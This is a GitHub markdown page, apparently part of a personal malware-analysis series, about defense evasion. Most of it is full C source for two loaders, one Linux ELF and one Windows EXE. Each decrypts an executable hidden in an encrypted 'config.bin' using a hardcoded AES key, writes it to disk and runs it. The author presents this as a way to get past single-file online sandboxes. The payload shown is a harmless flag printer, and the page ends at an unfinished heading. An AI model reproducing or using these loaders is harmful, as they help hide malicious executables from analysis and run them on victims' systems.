 # Malware Analysis Defense Evasion

Part 3 in the series. I am now interested in the first stages of the malware. How to load and get by initial defenses. This includes remaining inactive during sandboxing. It seems if you can get an inital execution by elevated privileges,
the rest of the code can be whatever.

The first example is adding a decrpytion of a config.bin file and demonstrated on both linux and windows.
Encryption is used to hide a exe in a config file. This additioanl file is another simple way to bypass most free online sandboxes. They typically only allow for an injest of a single file,
therefore its impossible to get the malware to actually be ran and discovered.

## For an elf


![Pasted image 20240501202559](https://github.com/dbissell6/DFIR/assets/50979196/4938c738-8651-4ded-ac7b-101a4a421a1c)


<details>

<summary>Code for the loader elf.</summary>

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

int main() {
    system("openssl enc -d -aes-256-cbc -salt -pbkdf2 -in config.bin -out decrypted_flag_printer -k 0123456789ABCDEF0123456789ABCDEF");
    chmod("decrypted_flag_printer", 0755);  // Make the decrypted file executable
    system("./decrypted_flag_printer");  // Execute the decrypted file
    return 0;
}
                    
```

</details>


## For an exe 

The file that will be encrypted and hidden in the config.bin

![Pasted image 20240502223347](https://github.com/dbissell6/DFIR/assets/50979196/a6b74bd6-30f5-419b-bfc2-8d74a5c3fd66)

![Pasted image 20240502223415](https://github.com/dbissell6/DFIR/assets/50979196/66d39dfd-8abe-4a19-a02e-a048001a66f7)


<details>

<summary>Code for the loader exe.</summary>

```
#include <windows.h>
#include <bcrypt.h>
#include <stdio.h>

void HexStringToByteArray(const char* hexString, BYTE* byteArray, int byteArrayLength) {
    for (int i = 0; i < byteArrayLength; i++) {
        sscanf(hexString + 2 * i, "%2hhx", &byteArray[i]);
    }
}

BYTE* ReadEncryptedFile(char* filename, DWORD* read) {
    HANDLE hFile = CreateFileA(filename, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) return NULL;

    DWORD fileSize = GetFileSize(hFile, NULL);
    BYTE* buffer = (BYTE*)malloc(fileSize);

    if (!ReadFile(hFile, buffer, fileSize, read, NULL)) {
        CloseHandle(hFile);
        free(buffer);
        return NULL;
    }

    CloseHandle(hFile);
    return buffer;
}

void DecryptAndRun(BYTE* cipherText, DWORD cipherSize) {
    BCRYPT_ALG_HANDLE hAlg = NULL;
    BCRYPT_KEY_HANDLE hKey = NULL;
    NTSTATUS status = BCryptOpenAlgorithmProvider(&hAlg, BCRYPT_AES_ALGORITHM, NULL, 0);
    BYTE key[32]; // 256-bit key for AES-256
    BYTE iv[16];  // 128-bit IV for AES

    HexStringToByteArray("0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF", key, sizeof(key));
    HexStringToByteArray("0123456789ABCDEF0123456789ABCDEF", iv, sizeof(iv));

    if (status == ERROR_SUCCESS) {
        status = BCryptGenerateSymmetricKey(hAlg, &hKey, NULL, 0, key, sizeof(key), 0);
    }

    DWORD cbDataOut = cipherSize;
    if (status == ERROR_SUCCESS) {
        status = BCryptDecrypt(hKey, cipherText, cipherSize, NULL, iv, sizeof(iv), cipherText, cipherSize, &cbDataOut, BCRYPT_BLOCK_PADDING);
    }

    if (status == ERROR_SUCCESS) {
        // Write decrypted data to a temporary executable file
        char tempPath[MAX_PATH];
        GetCurrentDirectory(MAX_PATH, tempPath);
        strcat(tempPath, "tempExecutable.exe");
        FILE* fp = fopen(tempPath, "wb");
        if (fp != NULL) {
            fwrite(cipherText, 1, cbDataOut, fp);
            fclose(fp);
            // Execute the temporary executable file
            system(tempPath); // Consider using CreateProcess for better control over execution
        }
    } else {
        fprintf(stderr, "Decryption failed with status: 0x%x\n", status);
    }

    if (hKey) BCryptDestroyKey(hKey);
    if (hAlg) BCryptCloseAlgorithmProvider(hAlg, 0);
}

int main() {
    DWORD read;
    BYTE* encryptedData = ReadEncryptedFile("config.bin", &read);
    if (encryptedData != NULL) {
        DecryptAndRun(encryptedData, read);
        free(encryptedData);
    } else {
        fprintf(stderr, "Failed to load encrypted data\n");
    }
    return 0;
}
//x86_64-w64-mingw32-gcc -o final2.exe final2.c -lbcrypt
```

</details>


## cpl?

Recently I was readoing about a CVE.




